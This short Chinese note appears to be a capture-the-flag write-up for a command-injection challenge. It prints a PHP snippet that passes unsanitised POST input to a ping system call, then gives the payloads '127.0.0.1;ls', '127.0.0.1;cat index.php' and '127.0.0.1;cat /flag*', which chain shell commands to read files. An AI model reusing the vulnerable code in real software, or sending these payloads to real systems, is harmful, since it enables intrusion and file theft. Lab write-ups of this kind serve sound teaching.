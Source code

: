 ping执行shell命令
127.0.0.1;ls
127.0.0.1;cat index.php
```php
<?php
if (isset($_POST['target'])) {
	system("ping -c 3 ".$_POST['target']);
}
?>
```
127.0.0.1;cat /flag*

